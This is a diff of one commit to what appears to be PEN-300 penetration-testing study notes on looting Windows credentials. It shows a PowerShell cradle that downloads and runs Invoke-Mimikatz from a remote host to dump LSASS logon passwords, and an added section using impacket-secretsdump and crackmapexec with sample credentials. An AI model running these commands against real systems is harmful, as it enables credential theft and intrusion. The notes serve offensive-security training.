

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Windows Credentials/Looting.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Windows Credentials/Looting.md
+++ b/Windows Credentials/Looting.md
@@ -111,6 +111,14 @@ C:\minidump.exe c:\windows\tasks\lsass.dmp
 #Invoking mimikatz through reflection(after bypassing AMSI)
 1. PS C:\> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1') | IEX
 2. PS C:\> Invoke-Mimikatz -Command "`"sekurlsa::minidump c:\tools\lsass.dmp`"sekurlsa::logonpasswords"
+```
+
+4th method(using [impacket-secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) and crackmapexec)
+
+```
+~# impacket-secretsdump contoso.com/trike:'DeVT$st43'@192.168.1.1
+
+~# crackmapexec smb 192.168.1.1 -u trike -p 'DeVT$st43' -d contoso.com --lsa
 ```
 
 When the popularity of cached credential retrieving raised, Microsoft introduced 2 secuirty measures: LSA Protection and Windows Defender Credential Guard. The LSA protection added an additional process
````
